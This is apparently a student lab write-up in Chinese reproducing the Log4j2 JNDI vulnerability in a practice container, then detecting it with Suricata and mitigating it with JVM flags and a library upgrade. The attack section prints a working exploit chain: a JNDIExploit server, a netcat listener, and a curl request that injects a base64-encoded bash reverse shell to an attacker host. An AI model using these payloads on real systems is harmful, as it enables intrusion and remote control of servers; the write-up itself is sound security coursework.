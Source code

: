 # `log4j2` 漏洞复现与缓解修复

## 漏洞攻击

### 检测漏洞存在性

- 使用 `java decompiler` 反编译 `demo.jar` 后可观察到受影响组建的版本号为 `2.14.0` ,确实处于受影响版本范围内，同时可以定位到漏洞代码
 ![alt text](decompile-demo.jar.png)

### 验证漏洞可利用性

 - 选择使用 `PoC` 手动测试
 按照课程使用 `POST` 请求发现报错方法不被支持，改用 `GET` 请求
 ![alt text](test-vulnerability-available.png)
 刷新dnslog记录，成功验证漏洞可利用
 ![alt text](dnslog.png)

### 评估漏洞利用效果

- 工具下载
由于课件中的国内镜像下载地址无法访问，选择先从 `github` 下载再通过 `scp` 传输到虚拟机中
![alt text](tool-download.jpg)
传输完成后在虚拟机中计算校验和，确认无误
![alt text](check-sum.png)

- 【手动】测试 `reverse shell` 的过程
直接在容器中创建反弹 `shell`
![alt text](test-ReverseShell.png)
可以看到这个 `shell` 的输入、输出和错误输出重定向到指定 `IP` 地址（192.168.56.108）的指定端口（7777）,并且成功 `get flag`
![alt text](test-ReverseShell-result.png)

- 开始漏洞利用
    - 在攻击者主机上启动工具
    ```bash
    java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 192.168.56.108
    ```
    - 在攻击者主机上提前运行监听程序，等待反弹连接
    ```bash
    nc -l -p 7777
    ```
    - 投放攻击代码:由于 `POST` 方法不被支持，改用 `GET` 方法
    ```bash
     curl "http://192.168.56.107:62564/hello?payload=%24%7Bjndi%3Aldap%3A%2F%2F192.168.56.108%3A1389%2FTomcatBypass%2FCommand%2FBase64%2F$(echo -n 'bash -i >& /dev/tcp/192.168.56.108/7777 0>&1' | base64 -w 0 | sed 's/+/%252B/g' | sed 's/=/%253d/g')%7D"
    ```
    ![alt text](attack.jpg)
    - 攻击者主机成功 `getshell`
    ![alt text](getshell.jpg)


## 漏洞利用检测

- 启动 `suricata` 检测容器
```bash
 docker run -d --name suricata --net=host -e SURICATA_OPTIONS="-i eth1" jasonish/suricata:6.0.4
```
![alt text](run-suricata.png)

- 更新 `suricata 规则`，更新完成测试完规则之后会自动重启服务
```bash
docker exec -it suricata suricata-update -f
```
![alt text](update-suricata-rules.png)

- 监视 `suricata` 日志
```bash
docker exec -it suricata tail -f /var/log/suricata/fast.log
```

- 重复前述漏洞攻击实验,分析日志输出
![alt text](suricata-log-contents.png)
1. **03/23/2025 - 12:16:00.698506记录**
    - **时间**：2025年3月23日12点16分00秒698506微秒。
    - **规则**：`[1:2022973:1] ET POLICY Possible Kali Linux hostname in DHCP Request Packet`，表示检测到DHCP请求数据包中可能包含Kali Linux的主机名。
    - **分类**：`Potential Corporate Privacy Violation`，即潜在的企业隐私侵犯。
    - **优先级**：1（最高优先级）。
    - **流量信息**：源IP `192.168.56.107`，源端口68（DHCP客户端端口），目的IP `192.168.56.100`，目的端口67（DHCP服务器端口），协议为UDP。这表明在网络中的`192.168.56.107`主机通过DHCP请求获取IP地址时，其主机名可能暗示它是Kali Linux系统。Kali Linux常用于渗透测试等安全工作，在企业网络中未经授权使用可能存在安全风险。
2. **03/23/2025 - 12:17:54.026260及后续多条类似记录**
    - **时间**：从12点17分54秒开始，有多条相近时间的记录。
    - **规则**：`[1:2034818:2] ET POLICY Serialized Java Object returned via LDAPv3 Response`，意味着检测到通过LDAPv3响应返回了序列化的Java对象。
    - **分类**：`Potentially Bad Traffic`，即可能的恶意流量。
    - **优先级**：2（较高优先级）。
    - **流量信息**：源IP `192.168.56.108`，源端口1389（LDAP服务默认端口），目的IP `192.168.56.107`，不同的目的端口（如51870、51878等），协议为TCP。这显示`192.168.56.108`的LDAP服务器向`192.168.56.107`的客户端发送了序列化的Java对象。在许多情况下，序列化的Java对象可被用于利用Java应用程序中的漏洞，比如Log4j漏洞就涉及通过JNDI（Java Naming and Directory Interface ）利用LDAP服务加载恶意的Java对象，进而执行任意代码，所以这类流量被视为可疑。 


## 漏洞缓解以及效果验证

### **1. 停止当前运行的容器**
```bash
docker stop happy_curran
```
![alt text](stop-container.jpg)

### **2. 重新启动容器并添加 JVM 参数并验证参数是否生效**
```bash
docker run -d \
  -p 60443:8080 \  # 保持原端口映射
  -e "JAVA_TOOL_OPTIONS=-Dlog4j2.formatMsgNoLookups=true" \
  --name log4j-patched \  # 可选：指定新容器名称
  vulfocus/log4j2-cve-2021-44228:latest
```
![alt text](restart-container.jpg)


### **3. 漏洞缓解验证**
- 重复攻击步骤，攻击机已无法成功 `getshell`
![alt text](attack-again.jpg)
![alt text](getshell-fail.jpg)

- 使用 `PoC` 手动测试验证漏洞可用性
![alt text](check-availability.jpg)


## 漏洞修复

### **方法1：增加参数配置（临时方案）**
由于 `Log4j `提供了一个名为 `JNDI（Java Naming and Directory Interface）` 的功能，允许从远程服务器中动态加载类或资源。 在日志消息或参数中，`Log4j` 支持解析形如 `${}` 的表达式，并允许通过 `JNDI` 加载外部数据。因此，禁用 `JNDI` 查找功能 ，完全禁用 `JNDI` 加载 ， 禁用 `RMI` 和 `LDAP` 加载远程类 ， 禁用 `DNS` 缓存，防止基于 `DNS` 的利用 ， 在配置文件中明确禁用 `JNDI` 相关组件，应该能够暂时修复漏洞
```bash
# 启动一个名为"log4shell"的后台容器，使用漏洞靶场镜像
docker run -d --name log4shell \

  # 将宿主机的22220端口映射到容器8080端口（暴露Web服务）
  -p 22220:8080 \

  # 使用预置的Log4j2漏洞环境镜像（CVE-2021-44228）
  vulfocus/log4j2-rce-2021-12-09:1 \

  # 启动Java应用时添加安全参数：
  java \
    # 禁用Log4j的MessageLookup功能（缓解RCE漏洞）
    -Dlog4j2.formatMsgNoLookups=true \
    
    # 禁止RMI协议加载远程代码库（阻断JNDI注入攻击路径）
    -Dcom.sun.jndi.rmi.object.trustURLCodebase=false \
    
    # 禁止LDAP协议加载远程代码库（双重防护）
    -Dcom.sun.jndi.ldap.object.trustURLCodebase=false \
    
    # 设置DNS正解析缓存时间为0秒（立即刷新解析记录）
    -Dsun.net.inetaddr.ttl=0 \
    
    # 设置DNS负解析缓存时间为0秒（防止缓存攻击）
    -Dsun.net.inetaddr.negative.ttl=0 \

    # 运行漏洞演示应用（模拟存在漏洞的服务）
    -jar /demo/demo.jar
```
![alt text](start-container.png)
**效果验证**
重复攻击步骤，已无法成功 `getshell`
![alt text](result1.png)

### **方法2：更新log4j2到2.17.1版本（长期方案）**
1. 由于容器中缺少更新必需工具，选择将 `demo.jar` 移入本机进行更新
![alt text](delete-old-version-log4j.jpg)
2. 下载新版本 `log4j` 
```bash
 sudo wget https://repo1.maven.org/maven2/org/apache/logging/log4j/log4j-core/2.17.1/log4j-core-2.17.1.jar
  sudo wget https://repo1.maven.org/maven2/org/apache/logging/log4j/log4j-api/2.17.1/log4j-api-2.17.1.jar
```
![alt text](download-new-version.png)
3. 将替换完成后的 `demo.jar` 重新打包，传回容器
```bash
jar cfm0 ../demo-patched.jar ./META-INF/MANIFEST.MF -C . .
docker cp ./demo-patched.jar hungry_dhawan:/demo
```
![alt text](repack-demo.png)
![alt text](cp-demo-to-container.png)

4. 重启容器内的应用服务
```bash
docker exec -it hungry_dhawan /bin/bash -c "pkill -f 'java -jar /demo/demo.jar'; java -jar /demo/demo.jar &"
```
**出现问题，容器无法重启，多次尝试无果，仍待续作。**
![alt text](fail-to-restart-container.png)















